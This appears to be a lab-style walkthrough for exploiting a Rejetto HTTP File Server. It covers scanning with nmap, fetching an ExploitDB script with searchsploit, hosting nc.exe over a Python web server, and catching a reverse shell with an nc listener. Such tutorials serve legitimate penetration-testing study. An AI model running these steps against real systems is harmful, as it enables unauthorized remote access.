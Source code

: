 
### How to setup exploit files ?

1. Run a `nmap` service version detection scan. In our case, the target is running a web server on port 80.

2. Upon further analysis we discover that the target is running a `Rejetto` HTTP file server.

3. Search publicly available exploits for it using `searchsploit`.

4. We will copy the exploit code to our `pwd`.
```
searchsploit -m <EDBID>
```
- EDBID - ExploitDB ID.

5. We can use a text editor to open and analyse the exploit script. The script should contain the instructions pertinent to the exploit.

6. In our case, we need to host a web server hosting `nc.exe` (netcat exe file) and also edit in our local IP and port number in the exploit code. 

7. We'll now copy the `nc.exe` file to our `pwd`.
```
cp /usr/share/windows-resources/binaries/nc.exe .
```

8. We'll now setup our `SimpleHTTPServer` to host the contents of our `pwd`.
```
python -m SimpleHTTPServer 80
```

9. Start a `nc` listener on the port we added in the code as specified in the instructions in our exploit code.
```
nc -nlvp <port-number>
```

9. Now we can launch our exploit file in another terminal.
```
python <EDBID>.py <target-ip> 80
```

10. On our web server we should see a few GET requests. We should also see a reverse shell in our `nc` listener. 




